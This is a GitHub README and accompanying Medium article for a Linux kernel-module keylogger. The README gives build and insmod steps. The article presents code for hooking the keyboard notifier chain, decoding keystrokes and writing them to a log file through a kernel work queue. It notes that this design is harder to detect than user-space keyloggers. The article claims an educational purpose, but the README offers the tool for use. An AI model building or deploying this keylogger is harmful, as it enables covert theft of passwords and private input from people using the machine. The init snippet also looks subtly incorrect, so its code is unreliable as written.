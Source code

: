 How to use it: Modify the LOG_FILE_PATH macro on the keyboad_logger.c source code with the path you prefer.

Build: `make`

Execute: `insmod keyoboard_logger.ko`

You'll find the log file on the LOG_FILE_PATH path.

[Read my article on Medium to know more about my Kernel Key Logger](https://medium.com/@emanuele.santini.88/developing-a-linux-kernel-module-keylogger-6c3922d72f9d)

Developing a Linux Kernel Module Keylogger
Emanuele Santini

Emanuele Santini
·

Follow
5 min read
·
Mar 19, 2024

Is it easy to enable a keylogger on Linux?

A keylogger is a type of software or hardware device that records the keystrokes typed on a computer or other electronic device. This can include letters, numbers, symbols, and special keys like Enter or Backspace. Keyloggers are often used for monitoring user activity, both for legitimate purposes such as parental control or employee monitoring, as well as for malicious purposes such as stealing sensitive information like passwords or credit card numbers.

There are various solutions available for creating a keylogger on Linux. Many of them can operate without requiring root permissions, but they often come with limitations or rely on intercepting X11 input system events, running atop the window manager.
Here, I want to introduce a Keylogger that operates within the Linux Kernel, created using a basic module. Kernel Module Keyloggers offer several advantages; They are independent from the Window Manager and operate at a lower level of the operating system, making them harder to detect compared to user-space keyloggers.

The purpose of this article is purely educational and does not intend to encourage any malicious behavior. Understanding how a Kernel Keylogger works could help you to detect if on your system runs a malware like this.
Additionally, this article will walk you through understanding concepts such as how input system events operate in the Linux Kernel, utilizing the work queue to execute deferrable functions, and writing files directly from the kernel.

On my GitHub you can check the kernel keylogger solution that I am discussing:
https://github.com/emalele1688/linux-kernel-examples/tree/main/kernelKeyLogger.
Here, I aim to demonstrate the principles behind how I developed this kernel module, without providing a detailed explanation of each code line. And the code shows here will be only an example. For the complete module code, please refer to my GitHub repository.
The Linux Input Subsystem

The Linux Input subsystem is a framework within the Linux kernel responsible for managing input devices such as keyboards, mice, touchscreens, game controllers, and more. Its primary role is to handle the flow of input events generated by these devices and to deliver them to user-space applications for processing.

The Input Subsystem API is documented here.

Here’s an overview of how the Linux Input subsystem works:

    Device Drivers: The subsystem interacts with device drivers that are responsible for communicating with hardware input devices. These drivers provide an interface for the kernel to receive input events from the hardware. Here an example on how to create an Input device driver.
    Event Handling: When a user interacts with an input device (e.g., pressing a key on a keyboard or moving a mouse), the corresponding device driver generates an input event. These events are then passed to the Input subsystem for processing.
    Notification chain: Key events are sent to the Keyboard notifier, which is a Notification Chain responsible for dispatching keyboard events to all registered callbacks.

An efficient kernel keylogger could register a callback on the Keyboard notifier system to retrieve input events. This can be easily implemented within a kernel module:

static int __init k_key_logger_init(void)
{
  struct keyboard_logger keyboard_notifier;
  keyboard_notifier.notifier_call = keyboard_callback;
  register_keyboard_notifier(&keyboard_notifier);
  
  return 0; 
}

Where the keyboard_callback is a function that we will handle the keyboard input events. We could implement the keyboard_callback like this:

#define TMP_BUFF_SIZE 16 // Choose an arbitrary value for the temp buffer. 16 Bytes will be enough

int keyboard_callback(struct notifier_block *kblock, unsigned long action, void *data)
{
  char tmp_buff[TMP_BUFF_SIZE];
  memset(tmp_buff, 0x0, TMP_BUFF_SIZE);

  struct keyboard_notifier_param *key_param = (struct keyboard_notifier_param *)data;
  size_t keystr_len = keycode_to_us_string(key_param->value, key_param->shift, tmp_buff, TMP_BUFF_SIZE);
  
  if(keystr_len > 1)
    printk("%s\n", tmp_buff);

  return NOTIFY_OK;
}

This example callback will print the keystrokes entered by the user. Each time a key on the keyboard is pressed and released, this callback will print the corresponding key.
The event data is encapsulated into a struct keyboard_notifier_param type, that contains the following field:

struct keyboard_notifier_param {
	struct vc_data *vc;	/* VC on which the keyboard press was done */
	int down;		/* Pressure of the key? */
	int shift;		/* Current shift mask */
	int ledstate;		/* Current led state */
	unsigned int value;	/* keycode, unicode value or keysym */
};

And it is implemented here.

The function keycode_to_us_string will convert the Unicode integer value of the symbol key (contained in the value field of the previous struct) to a human-readable character representing the pressed key. Check the code to see how it works.

In the Kernel Keylogger code you’ll find the keyboard_callbackfunction implemented similarly to the one we’ve just demonstrated. The key difference is how we handle keystrokes: instead of printing them with printk, we plan to write them to a file.
Writing the keystroke to a file

The keyboard notification chain operates within an atomic context. This implies that the keyboard_callback function is executed as an interrupt. Sleepable operations, such as writing to a text file, are not permitted within an interrupt context because they are not schedulable entities.
Writing into a file is a slow operation that couldn’t be executed in a interrupt context, so, if we want to write the input keystrokes received by the keyboard_callback function to a file we need to create a kernel process, using the Work Queue. Here you’ll find more about the Work Queue.

In my Keyboard Logger code you’ll find the following code for work task initialization:



static int __init keyboard_logger_init(void)
{
  // .....

  INIT_WORK(&klogger->writer_task, &write_log_task);

  // .....
}

We are setting up a work task, that we can start each time we want, using the kernel function schedule_work(&klogger->writer_task). This work is the writer task.
We are calling the schedule_workon the flush_buffer method:

void flush_buffer(struct keyboard_logger *klogger)
{
    // Swap the buffer
    char *tmp = klogger->keyboard_buffer;
    klogger->keyboard_buffer = klogger->write_buffer;
    klogger->write_buffer = tmp;
    klogger->buffer_len = klogger->buffer_offset;
    
    // Start to write the buffer to the log file
    schedule_work(&klogger->writer_task);
    
    // Reset the keyboard buffer
    memset(klogger->keyboard_buffer, 0x0, MAX_BUFFER_SIZE);
    klogger->buffer_offset = 0;
}

The purpose of the flush_buffer function is straightforward: we aim to switch the buffer used by the keyboard_callback, where keystrokes are being written, with the one being read by the writer_task to write to the file.

The writer task will write the keystroke to the specific file:

void write_log_task(struct work_struct *work)
{
    struct keyboard_logger *klogger;

    klogger = container_of(work, struct keyboard_logger, writer_task);
    
    kernel_write(klogger->log_file, klogger->write_buffer, klogger->buffer_len, &klogger->file_off);
}

The kernel_write function is used for writing a file in Kernel Space. Be careful to use it!
Conclusion

The main focus of the article was to discuss my kernel keylogger solution. If you have any ideas on how to enhance my code, feel free to share them with me, and remember to read the code on my GitHub repository.

